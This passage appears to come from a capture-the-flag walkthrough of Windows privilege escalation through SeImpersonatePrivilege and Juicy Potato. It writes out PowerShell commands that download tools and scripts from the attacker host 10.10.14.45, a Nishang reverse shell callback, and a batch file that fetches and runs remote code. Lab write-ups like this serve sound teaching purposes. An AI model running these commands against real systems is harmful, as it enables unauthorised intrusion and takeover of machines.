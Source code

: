 ```text
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

The box is running a Windows 10 Pro 64-bit operating system. Let’s first check the system privileges that are enabled for this user.

![](https://miro.medium.com/max/914/1*4VB2ovl0Dt3VBiE_KneCjA.png)

_SetImpersonatePrivilege_ is enabled so we’re very likely to get SYSTEM using [Juicy Potato](https://github.com/ohpe/juicy-potato). Users running the SQL server service or the IIS service usually have these privileges enabled by design. This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to SYSTEM.

Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/JuicyPotato.exe', 'C:\Users\Public\Downloads\jp.exe')
```

Run the executable file to view the arguments it takes.

![](https://miro.medium.com/max/932/1*I6zbLx6Yor48OjIEoYLTmQ.png)

It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/shell.bat', 'C:\Users\Public\Downloads\shell.bat')
```
